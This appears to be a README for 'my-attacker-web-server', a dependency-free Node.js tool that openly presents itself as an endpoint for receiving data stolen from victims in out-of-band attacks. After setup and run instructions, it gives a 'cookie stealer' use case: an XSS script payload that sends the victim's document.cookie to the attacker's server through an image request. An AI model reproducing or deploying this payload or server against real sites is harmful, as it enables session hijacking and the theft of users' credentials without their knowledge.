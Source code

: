 # my-attacker-web-server

A web server for attackers. 

The base functionality of this web server is to provide an endpoint for attacks where information from victim can be gathered via an HTTP request.

Useful in those OOB attacks where stolen information can be sent over HTTP to attacker.

## Dependencies

**NodeJS >= v12.18.1** (tested v12.18.1)

It has been designed specifically to have **no npm dependencies**. 

This permits to keep it lightweight and "ready to use" with no extra packages installation needed.

## Installation

```bash
# Clone the repository
git clone <url-to-repository>.git
```

## How to use it

```bash
# From the cloned directory 
[hacker@toolbox my-attacker-web-server]$ node server.js 
Server listening on 0.0.0.0:8080...
```

The web server by default will keep listening on all incoming HTTP requests from any interfaces on port 8080. 

To change the listening port, just change it in `settings.js`

```javascript
exports.ListenPort = 8080;
```

Every single request is logged on **stdout** and **logs.txt** file in JSON format.

## Use case example: cookie stealer

Let's suppose we discovered an XSS vulnerability in a web site and we want to steal cookie sessionID.

We can craft our payload like this:

```javascript
<script>
new Image().src="http://<ip-my-attacker-web-server>:<port>?c="+document.cookie;
</script>
```